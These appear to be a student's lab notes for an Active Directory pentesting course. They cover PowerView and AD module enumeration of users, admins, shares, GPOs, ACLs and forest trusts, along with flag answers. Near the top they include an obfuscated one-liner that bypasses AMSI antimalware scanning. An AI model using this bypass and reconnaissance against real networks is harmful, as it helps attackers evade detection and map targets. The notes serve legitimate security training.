

Enumeration


# PowerShell 1337 Color Mode:

```
$host.UI.RawUI.ForegroundColor = "DarkGreen"
$host.UI.RawUI.BackgroundColor = "Black"
```

# Bypass AMSI:

```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

# **Learning Objective 1:**
- Enumeratate following for the dollarcorp domain:
    - Users
    - Computers
    - Domain Administrators
    - Enterprise Administrators
    - Shares

* * *


# Enumerate Users:

```
powershell -ep bypass
. .\PowerView.ps1
Get-NetUser
```

- List specicific property of all the users e.g. samaccountname:

```
Get-NetUser | select -ExpandProperty samaccountname
```


# Enumerate Computers:

```
Get-NetComputer
```


- Get IPs of Computers in subnet using ADModule

```
 Get-ADcomputer -Filter * -Properties DNSHostname | %{Test-Connection -Count 1 -ComputerName $_.DNSHostName}
```


# Enumerate Domain Admins
- See Attributes of the Domain Admins Group:

```
Get-NetGroup -GroupName "Domain Admins" -FullData
```


- Get Members of the Domain Admins group:

```
Get-NetGroupMember -GroupName "Domain Admins"
```


# Enumerate Enterprise Admins
- Get Members of the Enterprise Admins Group:

```
# Have to query the the root domain because Enterprise Admins group is only present in the root of a forest

Get-NetGroupMember -GroupName "Enterprise Admins" -Domain moneycorp.local
```


* * *

# **Flag 1:**

- SID of the member of the Enterprise Admins group


---

# Find interesting shares
```
Invoke-ShareFinder -Exclude Standard -ExcludePrint -ExcludeIPC -Verbose
```


---
# **Learning Objective 2:** 
- Enumerate following of dollarcorp domain:
	- List all the OUs
	- List all the computers in the StudentMachines OU.
	- List the GPOs
	- Enumerate GPO applied on the StudentMachines OU
***
- Enumerate Restricted Groups from GPO:
```
Get-NetGPOGroup -Verbose
```
- Look for membership of the group "RDPUsers"
```
Get-NetGroupMember -GroupName RDPUsers

#PowerView Dev
Get-NetGroupMember RDPusers
```


# List all the OUs
```
Get-NetOU
```


# List all Computers in StudentMachines OU:
```
# PowerView
Get-NetOU StudentMachines | %{Get-NetComputer -ADSPath $_}
```


# List the GPOs:
```
Get-NetGPO
```


# Enumerate GPO applied to StudentMachines OU:
```
# PowerView
(Get-NetOU StudentMachines -FullData).gplink
# PowerView Dev
(Get-NetOU StudentMachines).gplink
```

```
Get-NetGPO -ADSPath 'LDAP://cn={3E04167E-C2B6-4A9A-8FB7-C811158DC97C},cn=policies,cn=system,DC=dollarcorp,DC=moneycorp,DC=local'
```


---
# **FLAG 2**:

- Display name of the GPO applied on StudentMachines OU


---
# **Learning Objective 3:** 
- Enumerate the following:
	- ACL for the Users group
	- ACL for the Domain admins group
	- All modify/rights/permissions for the student537
---
# ACL for the Users group:
```
Get-ObjectAcl -SamAccountName "Users" -ResolveGUIDs -Verbose
```
# ACL for the Domain Admins group:
```
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs -Verbose
```
- nothing out of the ordinary in lab here.
# ACLs for all of the GPOs:
```
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
```
# GPOs where student537 or RDPUsers group have interesting permissions:
```
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ?{$_.IdentityReference -match "student"}
```
- nothing interesting in lab here.
# Check All Modify rights/perms for the student537 or RDPUsers group:
- use the old PowerView for this to work.
```
Invoke-ACLScanner -ResolveGUIDs |?{$_.IdentityReference -match "student"}
```
```
Invoke-ACLScanner -ResolveGUIs | ?{$_.IdentityReference -match "RDPUsers"}
```
# **FLAG 3:**
- ActiveDirectory Rights for RDPUsers group on the users named Control537User


***
# Learning Objective 4:
- Enumerate all domains in the moneycorp.local forest
- Map the trusts of the dollarcorp.moneycorp.local domain
- Map External trusts in moneycorp.local forest
- Identify external trusts of dollarcorp domain. Can you enumerate trusts for a trusting forest?
***
# Enumerate all domains:
```
Get-NetForestDomain -Verbose
```


# Map the trusts of the dollarcorp domain:
```
Get-NetDomainTrust -NET
```


# Map all the trusts of the moneycorp.local forest:
```
Get-NetForestDomain | Get-NetDomainTrust -NET
```


# Get only the external trusts:
```
Get-NetForestDomain | Get-NetDomainTrust -NET | ?{$_.TrustType -eq 'External'}
```


# Identify external trusts of the dollarcorp.local domain
```
Get-NetDomainTrust -NET | ?{$_.TrustType -eq 'External'}
```


# Extract info from the external forest:
- Its Bi-directional so we can enumerate the external trust
```
Get-NetForestDomain -Forest eurocorp.local -Verbose | Get-NetDomainTrust -NET
```


***
# **FLAG 4:**
- Trust Direction for the trust between dollarcorp.moneycorp.local and eurocorp.local
- `BiDirectional`
***
